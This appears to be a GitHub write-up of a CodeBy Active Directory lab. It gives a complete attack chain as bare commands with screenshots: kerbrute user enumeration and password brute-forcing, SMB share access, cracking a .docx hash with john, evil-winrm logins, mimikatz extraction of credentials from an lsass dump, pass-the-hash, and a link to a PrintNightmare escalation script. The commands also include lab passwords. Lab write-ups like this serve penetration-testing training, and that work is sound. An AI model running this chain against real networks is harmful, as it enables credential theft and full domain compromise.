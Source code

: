 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ff5fb9d-e967-4246-ad95-60f10c375f16)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/58cf134e-77aa-4dae-a0bb-d023e6aa3202)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e5a12c41-4ea3-4d8f-b270-c8411f9670c9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2847bb9f-f903-470a-9b16-86c2051ed083)

Спасибо @Alex_Gubich

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#mini-dump

https://github.com/ParrotSec/mimikatz

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
.\mimikatz.exe "sekurlsa::minidump C:\Users\a.gusev\AppData\Local\Microsoft\Windows\lsass.dmp" "sekurlsa::logonPasswords" "exit"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e94d1e30-12f2-4784-93ad-eac13c0e0a39)

```
evil-winrm -i 192.168.2.6 -u exited3n -H NTLM_HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7db4e0d-d59d-4767-a31e-fb72eb208fe1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6f3d0cfc-9f51-44a0-a619-d237e9ece127)




```
evil-winrm -i 192.168.2.5 -u USER -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7c5c2b56-e8c4-4062-818f-2cb63ecd0891)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51d9aca1-e732-4fd1-b8da-0c5079401611)

https://medium.com/@joemcfarland/printnightmare-privilege-escalation-63bc5e531960

https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1
```
evil-winrm -i 192.168.2.5 -u o.smolkov -p Never_Forget! -s /home/kali/CodeBy/AD/Revol/sc/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14f9572f-edb0-4706-96b5-fad72b959159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72b079d3-33fe-437f-b933-abcba45012c8)
```
evil-winrm -i 192.168.2.5 -u adm1n -p P@ssw0rd
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/480dacf3-fd52-4b2c-907f-dc7e96744c1e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b09a9616-4848-4fd3-bd43-634c15812e51)





